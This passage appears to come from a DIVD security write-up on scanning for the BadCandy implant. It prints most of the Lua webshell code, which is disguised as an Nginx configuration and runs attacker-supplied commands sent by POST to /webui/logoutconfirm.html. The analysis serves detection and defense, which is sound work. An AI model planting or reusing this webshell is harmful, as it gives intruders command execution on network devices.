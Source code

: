This vulnerability saw an explosive amount of exploit activity as well, with a threat actor installing the BadCandy malware on a global scale. DIVD scanned for these implants under investigation [DIVD-2023-00038](https://csirt.divd.nl/cases/DIVD-2023-00038/). 

### Scanning for the Backdoors
The implant installed using this vulnerability, called BadCandy, is a bit more complex than the previous implants. BadCandy is a Lua-based webshell and consists of 29 lines of code that facilitate arbitrary command execution and is disguised as an Nginx configuration. The attacker can use the webshell by creating HTTP POST requests the `/webui/logoutconfirm.html` endpoint. 

```lua
location /webui/logoutconfirm.html {
    add_header Content-Type text/html;	
    add_header Cache-Control 'no-cache, no-store, must-revalidate';
    add_header Pragma no-cache;
    add_header Strict-Transport-Security "max-age=31536000; includeSubdomain";
    content_by_lua_block {
            
            local method = ngx.req.get_method()
            local headers = ngx.req.get_headers()
            local params = ngx.req.get_uri_args()
            local authorized = true
            if (method == "POST" and params ~= nil) then
                if (headers["Authorization"] ~= nil ) then
                    local authcode = string.gsub(headers["Authorization"], "^%s*(.-)%s*$", "%1")
                    if (authcode ~= nil and string.match(authcode, "^%w+$") ~= nil) then
                        local f = io.popen("","r")
                        if (f ~= nil) then
                            local shasum = f:read("*all")
                            shasum = string.lower(shasum)
                            if string.find(shasum, "<redacted>") then
                                authorized = true
                            end
                            f:close()
                        end
                    end
                end
                if (authorized == true) then
                    ngx.req.read_body()
                    local body = ngx.req.get_body_data()
                    if (params["menu"] ~= nil and params["menu"] ~= "") then
                        content = "/2010202301/"
                    elseif (params["logon_hash"] ~= nil and params["logon_hash"] == "1") then
                        content = "<redacted>"
                    elseif (params["logon_hash"] ~= niL and params["logon_hash"] == "<redacted>>" and params["common_type"] ~= nil) then
                        if (params["common_type"] == "subsystem") then
                            local f = io.popen(body, "r")
                            if (f ~= nil) then
                                content = f:read("*all")
                                f:close()
                            end
                        elseif (params["common_type"] == "iox") then
                            ngx.req.set_header("Priv-Level", "15")
                            local result = ngx.location.capture("*/luas", {method=ngx.HTTP_POST, body=body}) 
                            local response = result.body
                            if not (response == nil or response == 0) then
                                content = response
                            end
                        end
                    end
                end
            end
```